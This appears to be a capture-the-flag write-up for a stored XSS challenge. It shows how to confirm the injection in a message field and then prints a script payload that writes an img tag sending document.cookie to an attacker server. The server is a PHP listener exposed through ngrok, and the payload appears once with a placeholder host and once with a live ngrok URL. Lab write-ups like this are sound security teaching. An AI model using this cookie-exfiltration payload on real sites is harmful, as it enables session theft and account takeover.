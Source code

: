 # XSS - Stored 1

**Point**: 30 points

**Description**: So easy to sploit

## Solution:

There's a form for submitting "title" and "message".

<p align="center"><img width="450px" height="300px" src="https://user-images.githubusercontent.com/48288606/158942903-a138857c-579f-4711-aa2d-f94a17d05106.png"/></p>

Let's check whether XSS is possible. Inject respectively with `<script>alert(1)</script?` and `hacking` (optional)

Nothing was happened. Reversing our input, maybe XSS occurs in second input: `hacking` for title and `<script>alert(1)</script?` for message.

<p align="center"> <img width="400px" height="150px" src="https://user-images.githubusercontent.com/48288606/158943445-969975ce-0c9d-474c-a44c-c398dc3800a6.png"> </p>

Now this proves XSS can be in action. Now we have get the **cookie** from the victim, in this challenge victim is **administrator**. We can handle that with `document.cookie`. But the point is how we can get it; as usual payload we use `alert`, `console.log`, ... it won't work when these actions take place in client side and we would only see our cookie on the screen. 

We have to delivery all collected cookie from victim (administrator) to a specific server that we take control. To do that, we can think of a tag like `<img/>` to contain our server link in `src` attribute and when the victim **GET** an image from our source, we can see the full path **URL Request** and inject cookie to that URL, also find a way to "call" that image. Payload will look like this:

```javascript
<script> document.write("<img src='{your_server_link_site}?cookie=" + document.cookie + "' />") </script>
```

Let's take action step-by-step:

1. Create a server, I use **PHP** in my case. Create a PHP file without specific content:

```PHP
<html>
    <body>
    <?php 
       
    ?>
    </body>
</html>
```
2. Run PHP server with **localhost** and optional **port** : `php -S localhost:4444 hacking.php`

3. Public our server by tunneling. I use **ngrok** to server this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/158958343-5d03bfd3-686b-437b-8d3d-97bda34cedc1.png" /></p>

4. Send our payload: `hacking` in **title** and 
```javascript
<script> document.write("<img src='http://85ae-123-21-33-87.ngrok.io?cookie=" + document.cookie + "' />") </script>
``` 
in **message**

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158959186-eb82cb0f-93ad-4324-953f-3e43d4e86bf1.png" /> </p>

The cookie create by **administrator** shown up in the request.

FLag: **NkI9qe4cdLIO2P7MIsWS8ofD6**


